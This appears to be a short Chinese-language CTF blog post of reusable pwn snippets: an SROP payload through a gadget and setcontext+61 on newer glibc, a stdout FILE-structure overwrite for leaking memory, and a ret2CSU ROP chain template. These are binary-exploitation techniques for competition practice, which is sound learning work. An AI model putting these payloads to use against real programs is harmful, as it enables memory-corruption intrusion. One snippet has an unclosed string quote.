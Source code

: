 ```yaml
---
title: Pwn Snippet
date: 2021-05-20 10:05:06
categories: Code
tags:
    - ctf
    - pwn
---
```



# Code Snippets for Pwn
这里记录一些做CTF pwn题中大概也许可能会复用的代码片段.



### magic_gadget + setcontext+61 (高版本glibc)

注1: `the_gadget` 即
```
   0x154b20:	mov    rdx,QWORD PTR [rdi+0x8]
   0x154b24:	mov    QWORD PTR [rsp],rax
   0x154b28:	call   QWORD PTR [rdx+0x20]
```

SROP+伪造栈帧,按需布置伪栈帧和ROP链即可:
```
    frame = SigreturnFrame()
    frame.rax = 0
    frame.rsp = ROP_address
    frame.rip = ret

    frame_str = str(frame).ljust(frame_size,"\x00)
    payload = p64(the_gadget) + p64(frame_addr) + p64(0)*4 + p64(setcontext+61) + frame_str[0x28:] 
    payload += .....          #other stuff and ROP chain

```
### \_IO_2_1_stdout\_
gdb查找语句:
```
p &_IO_2_1_stdout_
```

覆盖为:
```
payload = p64(0xfbad1800)+p64(0x0)*3+'\x00'
```

### ret2CSU
```
payload = p6r + p64(0) + p64(1) + fuction_ptr\ 
    + arg3 + arg2 + arg1 + mov_call\
    + "\x00"*56 + return_address
```